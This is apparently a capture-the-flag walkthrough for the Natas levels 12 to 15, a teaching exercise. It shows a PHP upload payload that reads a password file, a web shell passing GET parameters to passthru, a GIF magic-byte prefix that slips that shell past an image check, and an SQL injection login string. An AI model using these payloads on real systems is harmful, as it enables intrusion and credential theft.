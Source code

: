 This challenge teaches us that it is wrong to let upload files without the right checks. Basically, just create a PHP script as this one:
```php
<?
passthru("cat /etc/natas_webpass/natas13");
?>
```
I called it "test.php". Once you did it, upload the file on the website, and intercept the request, changing the file extension randomly generated to PHP. \
\
_FYI if we want to be extremly flexible and spawn an actual shell, we could've ```<?passthru($_GET["cmd"]);?>``` instead, and pass commands as parameters._

# Natas 13 -> Natas 14:

We need to trick the php script into thinking the code we are submitting is, indeed, an image. Researching about how does the `exif_imagetype()` function works, shows something peculiar. From the [official documentation](https://www.php.net/manual/en/function.exif-imagetype.php):
```
exif_imagetype() reads the first bytes of an image and checks its signature.

exif_imagetype() can be used to avoid calls to other exif functions with unsupported file types or in conjunction with $_SERVER['HTTP_ACCEPT'] to check whether or not the viewer is able to see a specific image in the browser. 
```

So, it only checks the first bytes of an image and check its signature. Ain't that smart? \
Let's look for some [valid signatures](https://www.garykessler.net/library/file_sigs.html) online for image files. The easiest ones to put in code are GIFs. \
Let's make a new `test.php`, but this time let's actually change the first bytes of the file with the one of a valid signature:
```php
GIF87a
<?
passthru($_GET["cmd"]);
?>
```
Then let's do what we did until now...

# Natas 14 -> Natas 15:

SQL Injection? SQL Injection. Your username should be `a" OR 1=1 #`. Input sanification is **REALLY** important!

## PASSWORDS (SPOILERS)

_You have been warned. Scroll up or admit defeat._\
\
_You wanted to beat Natas, but you got Nada._\
\
_As you wish._
